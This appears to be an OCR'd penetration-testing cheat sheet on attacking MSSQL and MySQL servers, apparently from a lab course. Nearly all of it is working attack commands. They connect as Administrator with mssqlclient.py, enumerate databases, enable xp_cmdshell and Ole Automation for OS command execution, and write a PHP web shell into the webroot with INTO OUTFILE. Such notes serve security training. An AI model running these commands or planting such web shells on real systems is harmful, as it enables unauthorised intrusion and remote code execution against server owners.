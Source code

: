 ### Connecting with mssqlclient.py
```
python3 mssqlclient.py Administrator@10.129.201.248 -windows-auth
```

### MSSQL Commands
```
1> SELECT name FROM master.dbo.sysdatabases
2> GO
```
```
1> SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
2> GO
```
```
1> xp_cmdshell 'whoami'
2> GO
```
If xp_cmdshell is not enabled, we can enable it, if we have the appropriate privileges, using the following command:
```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```
### MySQL - Write Local File

```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

### MySQL - Secure File Privileges
```
show variables like "secure_file_priv";
```

### MSSQL - Enable Ole Automation Procedures
```
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
### MSSQL - Create a File
```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
```